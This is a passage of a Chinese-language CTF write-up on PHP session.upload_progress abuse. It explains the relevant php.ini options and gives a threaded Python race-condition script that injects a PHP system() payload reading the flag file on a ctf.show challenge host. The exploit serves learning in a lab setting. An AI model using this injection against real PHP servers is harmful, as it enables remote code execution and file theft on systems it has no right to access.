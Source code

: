 版本：php5.4以上

```
在php.ini有以下几个默认选项

1. session.upload_progress.enabled = on
2. session.upload_progress.cleanup = on
3. session.upload_progress.prefix = "upload_progress_"
4. session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
5. session.upload_progress.freq = "1%"
6. session.upload_progress.min_freq = "1"

其中
enabled=on表示upload_progress功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ；

cleanup=on表示当文件上传结束后，php将会立即清空对应session文件中的内容，这个选项非常重要；

name当它出现在表单中，php将会报告上传进度，最大的好处是，它的值可控；

prefix+name将表示为session中的键名
```

session文件包含和反序列化就是利用`session.upload_progress`,可以将上传的文件信息保存在session中.

###  文件包含

一般默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，我们需要进行条件竞争.如果为`off`,就不需要利用条件竞争.

脚本：

文件上传

```python
import requests
import threading

session = requests.session()
sess = 'zzy' #上传文件的PHPSESSION的ID
url1 = "http://74a4727a-4f34-4d21-bd52-95c73db10eed.challenge.ctf.show:8080/"
url2 = "http://74a4727a-4f34-4d21-bd52-95c73db10eed.challenge.ctf.show:8080/upload/"
data1 = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac ../f*");?>'# 传入的恶意代码
}
file = {
    'file': 'zzy'
}
cookies = {
    'PHPSESSID': sess
}


def write():
    while True:
        r = session.post(url1, data=data1, files=file, cookies=cookies)


def read():
    while True:
        r = session.get(url2)
        if 'flag' in r.text:
            print(r.text)


threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()
```